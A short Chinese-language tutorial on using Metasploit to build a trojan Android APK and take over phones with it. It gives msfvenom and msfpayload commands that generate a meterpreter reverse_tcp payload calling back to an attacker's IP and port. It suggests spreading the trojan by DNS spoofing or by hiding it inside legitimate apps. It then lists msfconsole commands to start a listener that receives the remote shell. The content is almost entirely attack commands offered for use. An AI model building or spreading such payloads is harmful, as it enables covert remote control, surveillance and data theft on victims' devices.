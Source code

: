 # msf 生成木马 apk 入侵安卓设备

## 生成木马

新版本 msf ：

```shell
msfvenom -p android/meterpreter/reverse_tcp LHOST=攻击者ip LPORT=攻击者监听端口 R > /root/apk.apk
```

老版本 msf ：

```shell
msfpayload -p android/meterpreter/reverse_tcp LHOST=攻击者ip LPORT=攻击者监听端口 R > /root/apk.apk
```

新版本生成的 apk 已经签名可直接安装。

## 传播木马

局域网的话可以通过 dns 欺骗之类的。也可以尝试将木马包含到其他正常 apk 里面。

## 监听

```shell
msfconsole
use exploit/multi/handler #加载模块
set payload android/meterpreter/reverse_tcp  #选择Payload
show options #查看参数设置
set LHOST 192.168.x.x #攻击者ip
set LPORT xxxx #攻击者监听端口
exploit #开始监听
```

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200601232608.png)

help 查看可进行操作